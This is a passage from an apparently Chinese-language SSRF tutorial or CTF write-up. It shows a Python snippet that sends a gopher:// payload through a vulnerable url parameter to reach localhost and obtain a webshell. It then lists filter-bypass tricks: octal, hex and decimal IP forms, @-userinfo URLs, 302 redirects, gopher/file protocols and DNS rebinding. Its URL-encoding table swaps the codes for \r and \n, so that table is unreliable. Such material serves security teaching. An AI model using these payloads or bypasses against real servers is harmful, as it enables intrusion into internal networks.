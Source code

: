 ```python
shellurl = "http://oj.momomoxiaoxi.com:9090/index.php?url=gopher://127.0.0.1:80/"

firstParse = urllib.parse.quote(PostHead)
new = firstParse.replace("%0A","%0D%0A")
secondParse = "_" + urllib.parse.quote(new)

getrequest = shellurl + secondParse

driver = webdriver.Chrome()
driver.get(getrequest)
```

8. 我们发现页面正常显示了phpinfo()页面，说明我们的shell反弹成功了，接下来更改eval执行代码和长度就可以得到webshell了。

- *PS其他：* 常见url编码（https://www.w3schools.com/tags/ref_urlencode.asp）：

|    Char    |  \r  |  :   |  ;   |  \n  |  %   |  =   |  &   |  ,   | space |
| :--------: | :--: | :--: | :--: | :--: | :--: | :--: | :--: | :--: | :---: |
| url-encode | %0A  | %3A  | %3B  | %0D  | %25  | %3D  | %26  | %2C  |  %20  |

### SSRF常见的绕过技巧

1. 更改IP地址写法
   - 一些开发者会通过传过来的URL参数进行正则表达式匹配来过滤内网IP，比如
     - `^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$`
     - `^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`
     - `^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`
   - 我们可以采用改编IP的方式进行绕过。比如地址`192.168.0.1`可以写成：
     - 八进制格式：`0300.0250.0.1`
     - 十六进制格式：`C0.A8.0.1`
     - 十进制整数格式：`3232235521`
     - 十六进制整数格式：`0xC0A80001`
2. 利用解析URL所出现的问题
   - 在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。解析不当可能导致绕过。比如：`http://www.baidu.com@192.168.0.1/` 实际上请求的是`192.168.0.1`上的内容。
3. 利用302跳转
   - 在网络上存在一个很神奇的服务：当我们访问 `http://xip.io` 这个网站的子域名时，会将子域名自动重定向到高一级的域名，比如 `http://192.168.0.1.xip.io` &rarr; `http://192.168.0.1` 。
     - 另外，内网IP有可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。[使用网址](http://tinyurl.com)
   - 也可以自己实现一个302跳转。在自己的服务器上部署一个中转跳转文件，跳转到内网地址（127.0.0.1）（是在限制了可用协议为http(s)，但支持CURLOPT_FOLLOWLOCATION下的周转措施。
4. 通过各种非HTTP协议
   - 如果服务端程序对访问URL所采用的协议进行验证的话，我们可以通过非HTTP协议进行利用。
   - 主要有两个协议：`gopher://`协议与`file://`
5. 利用DNS Rebinding
   - 完整的攻击流程：
     1. 服务器获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
     2. 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
     3. 服务器对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址
     4. 由于已经绕过验证，所以服务器返回访问内网资源的结果
6. *PS*：利用浏览器：`127。0。0。1` &rarr;浏览器解析&rarr; `127.0.0.1`

